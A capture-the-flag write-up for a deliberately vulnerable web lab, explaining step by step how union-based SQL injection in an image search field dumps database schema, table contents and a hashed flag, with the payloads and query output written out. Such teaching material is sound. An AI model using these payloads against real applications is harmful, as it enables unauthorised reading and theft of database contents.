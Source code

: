 ### Title: <span style="color:blue">SQL Injection Vulnerability in Image Input Field</span>

SQL injection (SQLi) is a web security vulnerability that allows an attacker to interfere with the queries that an application makes to its database. This can allow an attacker to view data that they are not normally able to retrieve. This might include data that belongs to other users, or any other data that the application can access. In many cases, an attacker can modify or delete this data, causing persistent changes to the application's content or behavior.

**Location:** `page=searchimg`

**Step 0:** 

write `1` in the input field; an SQL result will be thrown, which means that the `image input` field is vulnerable to SQL injection

```sql
ID: 1 
Title: Nsa
Url : https://fr.wikipedia.org/wiki/Programme_

```

**Step 1:** try to write `74 or true` SQL Statement in saerch image input field:

**Result:**
the original SQL query is not properly sanitized or parameterized, the injected code might be incorporated into the WHERE clause as
SELECT * FROM <images_table_name> WHERE id = 74 or true;
In this injected code, 74 or true manipulates the WHERE clause of the original query to always return true, effectively bypassing any conditions intended to restrict the results.

```sql
ID: 74 or true 
Title: Nsa
Url : https://fr.wikipedia.org/wiki/Programme_

ID: 74 or true 
Title: 42 !
Url : https://fr.wikipedia.org/wiki/Fichier:42

ID: 74 or true 
Title: Google
Url : https://fr.wikipedia.org/wiki/Logo_de_Go

ID: 74 or true 
Title: Earth
Url : https://en.wikipedia.org/wiki/Earth#/med

ID: 74 or true 
Title: Hack me ?
Url : borntosec.ddns.net/images.png

```

**Step 2 :**

In SQL injection attacks, knowing the number of columns in a SQL query can be important for constructing a SQL statement that doesn't break the syntax or structure of the original query. Additionally, if we want to use the UNION clause to combine other queries into the original, this condition should be fulfilled: Every SELECT statement within UNION must have the same number of columns.
We can use the `union-based` SQL injection technique to select more and more null values until the query is correct.
The UNION operator is used to combine the result sets of two or more SELECT statements.

```sql

SELECT _column_name(s)_ FROM _table1_ UNION SELECT _column_name(s)_ FROM _table2_;
Every SELECT statement within UNION must have the same number of columns.
The columns must also have similar data types.
The columns in every SELECT statement must also be in the same order.

```

```sql

74 or 1=1 UNION SELECT null; -- not working
74 or 1=1 UNION SELECT null,null; -- This works.
74 or 1=1 UNION SELECT null,null,null; -- not working
```

**Step 3 :** use the information_schema database

`INFORMATION_SCHEMA` is a database within each MySQL instance, the place that stores information about all the other databases, contains several read-only tables, and not perform INSERT, UPDATE, or DELETE operations on them.
You can use queries against the information_schema database to retrieve information about the database server, such as:

- Listing databases and their properties (SCHEMATA table).
- Listing tables in a database (TABLES table).
- Listing columns in a table (COLUMNS table).
- Listing indexes in a table (STATISTICS table).
- Listing privileges that users have (SCHEMA_PRIVILEGES, TABLE_PRIVILEGES, COLUMN_PRIVILEGES tables).

```sql
74 or 1=1 union select TABLE_NAME, TABLE_TYPE from INFORMATION_SCHEMA.tables

```

```sql
ID: 74 or 1=1 union select TABLE_NAME, TABLE_TYPE from INFORMATION_SCHEMA.tables 
Title: BASE TABLE
Url : db_default

ID: 74 or 1=1 union select TABLE_NAME, TABLE_TYPE from INFORMATION_SCHEMA.tables 
Title: BASE TABLE
Url : users

ID: 74 or 1=1 union select TABLE_NAME, TABLE_TYPE from INFORMATION_SCHEMA.tables 
Title: BASE TABLE
Url : guestbook

ID: 74 or 1=1 union select TABLE_NAME, TABLE_TYPE from INFORMATION_SCHEMA.tables 
Title: BASE TABLE
Url : list_images

ID: 74 or 1=1 union select TABLE_NAME, TABLE_TYPE from INFORMATION_SCHEMA.tables 
Title: BASE TABLE
Url : vote_dbs

```
Here's a breakdown of what's happening:
* The original query appears to be something like 
    ``` sql
    SELECT column1, column2 FROM table_name WHERE ID = ''
    ```
* The injection starts with 74 or 1=1 which is always true (1=1), effectively bypassing any ID-based filtering in the original query.
* Then, we perform a UNION with another SELECT statement that retrieves TABLE_NAME and TABLE_TYPE columns from the INFORMATION_SCHEMA.tables.
* The retrieved table names `db_default`, `users`,` guestbook`, `list_images`,` vote_dbs`
the value BASE TABLE in the TABLE_TYPE column indicates that the table is a regular, user-created table, not a view or a system table
and as its a search filed on images we will be intrested on retrieving data from the list_image table


```sql
 74 or 1=1 union select TABLE_NAME, COLUMN_NAME From INFORMATION_SCHEMA.COLUMNS
```

```sql 
ID:  74 or 1=1 union select TABLE_NAME, COLUMN_NAME From INFORMATION_SCHEMA.COLUMNS 
Title: id
Url : list_images

ID:  74 or 1=1 union select TABLE_NAME, COLUMN_NAME From INFORMATION_SCHEMA.COLUMNS 
Title: url
Url : list_images

ID:  74 or 1=1 union select TABLE_NAME, COLUMN_NAME From INFORMATION_SCHEMA.COLUMNS 
Title: title
Url : list_images

ID:  74 or 1=1 union select TABLE_NAME, COLUMN_NAME From INFORMATION_SCHEMA.COLUMNS 
Title: comment
Url : list_images

```
we tried :
```sql 
74 or 1=1 union select id, url  from list_images
74 or 1=1 union select  title, comment from list_images


```
After testing these series of SQL injection attempts, we observed that the flag appeared in the final query. In the seconf query
the result shows : 

```sql
ID: 74 or 1=1 union select  title, comment from list_images 
Title: If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
Url : Hack me ?

```
The instruction indicates that to verify this password, one should decrypt it, convert all characters to lowercase, and then apply the SHA256 hashing algorithm.
using : https://www.dcode.fr/identification-chiffrement to execute the instructions 

decrypt MD5(1928e8083cf461a51303633093573c46) :`albatroz` 
lowercase the dycrepted value: `albatroz`
SHA256(albatroz): `f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188`

the flag is : f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188




**Resources:**

information_shema: 

* https://dev.mysql.com/doc/mysql-infoschema-excerpt/8.3/en/information-schema-introduction.html

MySQL Injection: 

* https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md
* https://book.hacktricks.xyz/pentesting-web/sql-injection/mysql-injection
* https://portswigger.net/web-security/sql-injection

dCode: 

* https://www.dcode.fr/identification-chiffrement